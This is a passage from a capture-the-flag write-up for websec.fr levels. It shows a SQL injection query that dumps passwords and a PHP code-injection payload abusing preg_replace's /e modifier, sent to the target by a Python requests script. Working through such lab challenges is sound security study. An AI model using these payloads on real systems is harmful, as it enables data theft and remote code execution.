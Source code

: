 Above doesn't really work because we need to cast the variable as `username`, else it will **not be printed**. This would print `users` as the table. 
Then just run `SELECT group_concat(password) as username FROM users;` to get flag `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`.

## Level 05

```php
<?php
  ini_set('display_errors', 'on');
  ini_set('error_reporting', E_ALL ^ E_DEPRECATED);

  if (isset ($_REQUEST['q']) and is_string ($_REQUEST['q'])):
      require 'spell.php';  # implement the "correct($word)" function

$q = substr ($_REQUEST['q'], 0, 256);  # Our spellchecker is a bit slow, do not DoS it please.
$blacklist = implode (["'", '"', '(', ')', ' ', '`']);

$corrected = preg_replace ("/([^$blacklist]{2,})/ie", 'correct ("\\1")', $q);
?>

<?php echo htmlspecialchars($corrected); ?>
```

There is a max length of 256 chars (truncated via `substr`).
The most notable thing is the usage of `preg_replace` with the `/ie` option. 
This particular option allows for a **second argument to be evaluated as a PHP expression**.
In short, I can inject PHP code into this. 

Based on the website, the `$flag` variable is in `flag.php`.
I can't use brackets, but `{}` is allowed. 

Using `${flag}` returns nothing, meaning the `$flag` variable is not included yet. Since I can inject PHP expressions, using `include` should work.

However, I cannot use `''`,  meaning I cannot write `include 'flag.php'` within my payload. However, nothing is stopping me from specifying ANOTHER HTTP variable via GET:
`${include $_GET[f]}${flag}`
Afterwards, send this payload with `f=flag.php`, and you'll get the flag:

```python
import requests

url = 'https://websec.fr/level05/index.php?f=flag.php'
data = {
	'q':'${include	$_GET[f]}${flag}',
	'submit':''
}

r = requests.post(url,data=data)
print(r.text)
```

## Level 07
